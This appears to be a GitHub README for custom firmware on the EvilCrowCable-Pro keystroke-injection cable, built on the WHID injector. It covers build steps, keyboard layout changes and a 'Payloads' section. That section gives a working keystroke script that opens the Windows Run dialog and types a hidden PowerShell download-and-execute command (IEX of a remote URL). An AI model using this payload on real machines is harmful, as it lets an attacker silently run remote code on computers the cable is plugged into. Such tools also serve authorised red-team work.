 ## Build instructions

1. Start with the installation at [github.com/whid-injector/WHID/wiki#main-requirements](https://github.com/whid-injector/WHID/wiki#main-requirements)
2. replace the files inside [`EvilCrowCable-Pro/@main/firmware`](https://github.com/joelsernamoreno/EvilCrowCable-Pro/tree/main/firmware) with the ones in [this directory](/evil_crow_cable)
3. edit the url at [payload.h](payload.h#L50) based on your needs


## Change Keyboard layout

If the keyboard is availabe at [github.com/whid-injector/WHID/wiki/Keyboards-Layout](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout), use those instructions.

If not available, you can modify the file `Keyboard/src/KeyboardLayout_en_US.cpp` ([`Keyboard` library](https://github.com/arduino-libraries/Keyboard), usually found somewhere at around `%localAppData%/Arduino15/libraries/Keyboard` on Windows) based on your needs. \
An example for that is the file [KeyboardLayout_en_US.cpp](/files/KeyboardLayout_en_US.cpp) for the Swiss-German keyboard layout

## Payloads

Use something like the following to execute a powershell script from an url (replace `URL` accordingly)
```shell
Press:131+114 
Print:powershell -w h "IEX(iwr('URL'))"
Press:176
Press:176
Press:176
Press:176
Press:176
```

> **Note**
> `131+114` here stands for the `WIN` + `r` key combo, and `176` for  `ENTER` ([syntax](https://github.com/whid-injector/WHID/wiki/WHID-Software-SCRIPTING-SYNTAX)) \
> See [github.com/whid-injector/WHID#how-to-start-newbies-edition](https://github.com/whid-injector/WHID?tab=readme-ov-file#how-to-start-newbies-edition) for general usage of the WHID-injector
